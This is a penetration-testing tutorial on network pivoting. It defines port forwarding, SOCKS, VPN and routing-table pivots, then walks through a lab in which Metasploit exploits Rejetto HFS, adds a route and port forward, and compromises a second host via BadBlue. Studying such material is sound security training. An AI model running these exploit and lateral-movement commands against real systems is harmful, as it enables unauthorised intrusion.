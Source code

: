 # Pivoting

## Pivoting definitions

Pivoting is a post exploitation technique that involves utilizing a compromised host that is connected to multiple networks to gain access to systems within other networks.

After gaining access to one host, we can the compromised host to exploit other hosts on a private internal network to which we could not access previously.

Meterpreter provides us with the ability to add a network route to the internal network's subnet, perform port forwarding and consequently scan and exploit other systems on the network.

## Different types of pivoting

Port forwarding: The attacker creates a tunnel between two machines via open TCP/IP ports, forwarding packages and traffic from one to another.

There are multiple forms of port forwarding:

- Local port forwarding: The compromised machine “listens” for data and instructions from the attacker’s machine, allowing the attacker to access internal services.

- Remote port forwarding: The attacker maps ports on their machine to local ports on the compromised machine.

- Dynamic port forwarding: The attacker creates a SOCKS proxy server for tunneling traffic, with the compromised machine acting as a middleman between the attacker’s machine and internal services.

- VPN pivoting: The attacker starts a virtual private network (VPN) client on the compromised machine, accessing a remote VPN server. The attacker then sends data from the server to the client and can also access information (e.g., network traffic) from the compromised machine by sending data from the client to the server.

- Proxy pivoting/SSH pivoting: The attacker establishes a local proxy server through SSH. Any connections to the designated port are then forwarded through the proxy to their final destination.

- Routing tables: The attacker changes the routing table of the compromised machine to add a new route. This route will require any traffic sent to the destination to tunnel through the defined gateway, allowing the attacker to capture this data.

## Lab

Victim 1 : 10.0.29.148/20

Victim 2 : 10.0.29.96/20

The attacker's Kali machine communicates with victim 1, but not with victim 2.

![pivoting-lab](../../Media/Pivoting/pivoting-lab.png)

## Steps of pivoting scenario (routing tables & remote port forwarding)

1. Enumeration of victim-1 :

```text
:~# nmap -sV -p 80 10.0.29.148
```

2. Use an exploit for compromise victim-1 machine :

```text
:~# searchsploit rejetto
:~# msfconsole
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> run
meterpreter > sysinfo
meterpreter > getuid
```

3. We'll add a new route between victim-1 machine and attack machine to enable us to communicate with victim-2 :

```text
meterpreter > run autoroute -s 10.0.29.0/20
meterpreter > run autoroute -p
```

5. Let's put the victim-1 session in the background :

```text
meterpreter > background
```

6. Next, we will enumerate victim-2 via victim-1 with tcp port scan module :

```text
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > show options
msf6 > set RHOSTS 10.0.29.96
msf6 > set PORTS 1-100
msf6 > run
```

We can see that port 80/tcp is open on victim-2 machine.

7. We want to enumerate the version on this port 80 with nmap on our Kali machine, so we need to create a port redirection to our local machine :

```text
msf6 > sessions
msf6 > sessions 1
meterpreter > portfwd add -l 1234 -p 80 -r 10.0.29.96
```

8. Now, in new tab of kali machine, we execute nmap scan to victim-2 service with port redirection :

```text
:~# nmap -sV -p 1234 localhost
```

We have identified the http service “Badblue httpd 2.7”.

8. Next, we will launch an exploit on victim-2 to gain access :

```text
msf6 > background (victim-1 session to background)
msf6 > search BadBlue
msf6 > use exploit/windows/http/badblue_passthru
msf6 > set payload windows/meterpreter/bind_tcp
msf6 > set RHOSTS 10.0.29.96
msf6 > run
meterpreter > sysinfo
meterpreter > getuid
```

9. At this point, we have gained access to victim-1 and victim-2 machines, and can list these accesses with the above commands :

```text
meterpreter > background (victim-2 session to background)
meterpreter > sessions
```
